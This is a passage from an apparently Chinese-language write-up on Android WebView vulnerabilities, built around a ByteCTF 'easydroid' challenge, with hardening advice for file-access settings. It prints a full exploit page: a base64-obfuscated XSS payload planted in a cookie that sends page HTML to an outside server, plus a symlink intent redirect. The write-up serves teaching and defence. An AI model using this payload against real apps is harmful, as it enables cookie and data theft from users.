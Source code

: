 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FlmaXSHgoC0UknOib3jVUiak9dia3HeVVnAz3QlwJiclgniagAZUniaTC8m9DrhfW2RpwxWgNFSiaL7v8Jw/640?wx_fmt=png "")  
  
   
  
安全防护：  
```
1、设置setAllowFileAccess方法为false,设置setAllowFileAccessFromFileURLs和setAllowUniversalAccessFromFileURLs为false。
2、在Android4.0(API15)及以下得采用其他方法进行手动校验是否访问file域
3、当WebView所在Activity存在组件暴露时，若不是必要的组件暴露，应该禁止组件暴露
```  
  
####   
#### （4）污染Cooike漏洞  
  
  
本漏洞参考：Android-Webview中的漏洞利用总结（http://www.ctfiot.com/39656.html）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FlmaXSHgoC0UknOib3jVUiak9f9tpZtfA4tbkxp1wzpGFyzowDhCTSqyTibF8Z1Eus645DbxcmHFkUw/640?wx_fmt=png "")  
  
   
  
漏洞原理：  
   
  
攻击者创造符号链接，然后绕过校验，访问攻击的html，再通过软链接去加载symlink.html，然后窃取Cooike，如下图所示：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FlmaXSHgoC0UknOib3jVUiakM3MBDib40DsRmQiaOX10YmKPoCZNy81R1PxrtKqB5ttw9cSpjOPX4Dbg/640?wx_fmt=png "")  
  
   
  
漏洞复现：  
  
首先创建了符号链接，然后过URL校验，访问我们的服务器http://ip地址/easydroid.html:  
  
   
  
建立一个easydroid.html，它里面有两个重定向：一个是设置Cookie，一个是加载与Cookies文件符号链接后的那个html文件。  
  
   
  
easydroid.html  
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>evil</title>
</head>
<body>
<h1>injected cookie with xss</h1>
<script>
    document.cookie = "sendData = '<img src=\"evil\" onerror=\"eval(atob('dmFyIGJhc2VVcmwgPSAiaHR0cDovLzEwLjcuODkuMTA4L015VGVzdC9SZWNlaXZlU2VydmxldD8iCm5ldyBJbWFnZSgpLnNyYyA9IGJhc2VVcmwgKyAiY29va2llPSIgKyBlbmNvZGVVUklDb21wb25lbnQoZG9jdW1lbnQuZ2V0RWxlbWVudHNCeVRhZ05hbWUoImh0bWwiKVswXS5pbm5lckhUTUwpOw=='))\">'"
    var baseUrl = "http://****/MyTest/ReceiveServlet?"
    new Image().src = baseUrl + "cookie=" + encodeURIComponent("open evil page.");
     setTimeout(function() {
         location.href = 'intent:#Intent;component=com.bytectf.easydroid/.TestActivity;S.url=file%3A%2Fdata%2Fuser%2F0%2Fcom.bytectf.pwneasydroid%2Fsymlink.html;end';
     }, 40000);
</script>
</body>
</html>
```  
  